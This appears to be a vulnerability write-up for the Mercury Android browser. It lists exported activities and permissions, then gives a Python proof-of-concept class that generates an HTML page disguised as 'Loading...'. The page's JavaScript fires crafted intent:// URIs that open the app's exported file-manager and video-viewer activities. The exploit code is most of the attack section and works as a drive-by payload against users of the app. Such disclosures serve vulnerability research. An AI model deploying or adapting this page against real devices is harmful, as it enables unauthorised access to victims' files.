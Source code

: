 **CVSS v3.1 Score: 7.5 (High)**

## APK Analysis Results

**Exported Activities Found:**

```xml
<!-- Vulnerable activity exports -->
<activity android:name="com.ilegendsoft.mercury.external.wfm.ui.WFMActivity2" 
          android:exported="true" />
<activity android:name="com.ilegendsoft.mercury.ui.activities.filemanager.video.viewer.VideoViewerActivity" 
          android:exported="true" />
```

**Permissions Analysis:**

- `WRITE_EXTERNAL_STORAGE`: Enables file system access
- `INTERNET`: Allows network communication
- `ACCESS_NETWORK_STATE`: Network status monitoring

## Proof of Concept

The complete exploit framework includes:

```python
class MercuryExploit:
    def __init__(self, target_ip):
        self.target_ip = target_ip
        self.intent_payload = "intent://stuff#Intent;component=com.ilegendsoft.mercury/com.ilegendsoft.mercury.external.wfm.ui.WFMActivity2;action=android.intent.action.VIEW;end"
        self.video_intent = "intent:#Intent;S.path=/sdcard/Mercury/Downloads/video.mp4;component=com.ilegendsoft.mercury/.ui.activities.filemanager.video.viewer.VideoViewerActivity;end"
    
    def generate_exploit_page(self):
        return f'''
        <!DOCTYPE html>
        <html><head><title>Mercury Exploit</title></head>
        <body>
            <h1>Loading...</h1>
            <script>
                // Stage 1: Trigger WFM activity access
                setTimeout(function(){{ 
                    location.href="{self.intent_payload}"; 
                }}, 1);
                
                // Stage 2: Trigger video viewer after upload
                setTimeout(function(){{ 
                    location.href="{self.video_intent}"; 
                }}, 10000);
            </script>
        </body>
        </html>
        '''
```
